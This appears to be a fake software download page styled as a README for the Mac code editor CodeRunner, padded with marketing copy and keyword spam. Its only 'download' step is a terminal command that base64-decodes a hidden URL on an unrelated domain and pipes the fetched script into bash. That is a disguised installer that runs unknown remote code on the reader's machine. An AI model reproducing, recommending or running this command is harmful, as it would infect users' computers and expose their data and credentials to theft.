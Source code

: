 # CodeRunner Mac Download - Lightning Fast Code Editor

![CodeRunner Screenshot 1](https://coderunnerapp.com/images/Screenshot_3.jpg)

---

### 🔽 Download CodeRunner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is CodeRunner for Mac?

CodeRunner is a cutting-edge programming environment crafted exclusively for macOS, blending the simplicity of a text editor with the robust capabilities of a full-fledged IDE. It revolutionizes coding by allowing instant execution of code with a single keystroke, making it indispensable for rapid prototyping, educational purposes, and daily development tasks.

Unlike traditional IDEs that require extensive setup, CodeRunner delivers a frictionless experience from the moment you launch it. Its sleek, distraction-free interface and near-instantaneous launch time make it a favorite among developers who value efficiency. The app shines when working with code snippets, algorithm testing, or small to medium-sized projects, offering professional-grade features without the bloat.

With native support for 25+ languages, intelligent code completion, and seamless integration with debugging tools and version control systems, CodeRunner provides everything a modern developer needs in a lightweight package that respects your system resources.

![CodeRunner Screenshot 2](https://coderunnerapp.com/images/debugging.jpg)

---

## Key Features & Benefits

- ⚡️ Instant code execution with single keystroke  
- 🖥️ Native support for 25+ programming languages  
- 🚀 Lightning-fast performance on Apple Silicon  
- 🛠️ Built-in debugger and version control  
- 📚 Perfect for learning and teaching code  
- 🎨 Customizable themes and workflows  

Whether you're experimenting with new languages, solving coding challenges, or building small applications, CodeRunner delivers professional tools with zero configuration overhead.

---

## 🔍 Keywords

CodeRunner for Mac, CodeRunner Mac Download, CodeRunner for Mac Download, CodeRunner Mac, CodeRunner Download Mac, CodeRunner Download for Mac, CodeRunner full version, Mac Download CodeRunner, Download Mac CodeRunner, Download CodeRunner Mac, Download CodeRunner for Mac
